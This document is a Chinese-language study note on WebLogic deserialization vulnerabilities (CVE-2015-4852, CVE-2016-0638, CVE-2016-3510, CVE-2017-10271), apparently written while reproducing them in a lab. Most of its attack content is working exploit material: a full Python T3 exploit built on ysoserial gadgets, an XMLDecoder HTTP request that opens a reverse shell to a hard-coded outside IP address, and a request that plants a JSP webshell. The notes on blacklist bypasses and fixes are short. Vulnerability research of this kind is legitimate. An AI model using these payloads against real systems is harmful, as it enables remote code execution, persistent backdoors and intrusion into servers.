

## 环境搭建

参考https://github.com/QAX-A-Team/WeblogicEnvironment?tab=readme-ov-file

## CVE-2015-4852

T3协议的反序列化。T3协议由协议头包裹，且数据包中包含多个序列化的对象。通过Yso生成反序列化payload，将payload替换掉数据包中的一个序列化对象，然后修改数据包的前四个字节（代表数据包的长度）：


漏洞的触发点在`wlserver/server/lib/wlthint3client.jar/weblogic/InboundMsgAbbrev`的`readObject()`。

```python
from os import popen
import struct # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii

def generatePayload(gadget,cmd):
    YSO_PATH = "/Users/feng/ctftools/ysoserial/ysoserial-all.jar"
    popen = subprocess.Popen(['java','-jar',YSO_PATH,gadget,cmd],stdout=subprocess.PIPE)
    return popen.stdout.read()

def T3Exploit(ip,port,payload):
    sock =socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip,port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: "+"".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header  +desflag+  payload
    payload = struct.pack(">I",len(payload)) + payload[4:]
    sock.send(payload)
if __name__ == "__main__":
    ip = "127.0.0.1"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "touch /tmp/success"
    payload = generatePayload(gadget,cmd)
    T3Exploit(ip,port,payload)

```


漏洞的修复就是加黑名单：


在`InboundMsgAbbrev`和`MsgAbbrevInputStream`的`resolveClass`方法中进行了过滤。


## CVE-2016-0638

就是对CVE-2015-4852黑名单的绕过，找到了`weblogic.jms.common.StreamMessageImpl`这个类，这个类实现的不是`Serializable`接口而是`Externalizable`接口，实现了这个接口的反序列化调用的是`readExternal`方法。


相当于二次反序列化来绕过黑名单。

修复则是把`var5`改成了`FilteringObjectInputStream`，在里面进行了过滤。




## CVE-2016-3510

与CVE-2016-0638类似，绕过黑名单是用`MarshalledObject`类。


该类有个`readResolve()`方法，在里面可以对`this.objBytes`进行反序列化。


`readResolve()`方法会在`readObject()`的底层被调用，即`invokeReadResolve()`那里。


也是一个利用二次反序列化实现的绕过。

修复：


## CVE-2017-10271

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

反弹shell，命令有些字符要编码：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/121.5.169.223/39123 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

写webshell：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```


访问`http://your-ip:7001/bea_wls_internal/test.jsp`

具体流程参考https://xz.aliyun.com/t/10172?time__1311=Cqjx2DnDuDRD0D0x0vT8KQnDODgDhCCYjeD#toc-4

## References

[WebLogic安全研究报告](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ%3D%3D&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704)

[weblogic漏洞分析之CVE-2016-0638 - 先知社区](https://xz.aliyun.com/t/10173?time__1311=Cqjx2DnDuDRD0DRx0vT8KQnDx0hABiYDf2bD)

[Java安全之Weblogic漏洞分析与利用(上) - 先知社区](https://xz.aliyun.com/t/12947?time__1311=GqGxuD9QArDsNiQGkDRDAOzxgGIqG8QD1+eD#toc-5)

[从Weblogic原理上探究CVE-2015-4852、CVE-2016-0638、CVE-2016-3510究竟怎么一回事 - 先知社区](https://xz.aliyun.com/t/8443?time__1311=n4+xnD0DcDuDyDR2xjxYqGNnpBfKDtQKesYiTTk4D#toc-2)

[Java安全之ysoserial JRMP分析 - 先知社区](https://xz.aliyun.com/t/12780?time__1311=GqGxu7G%3DqCwxlrzG77DODnDRO8vG87//0AeD)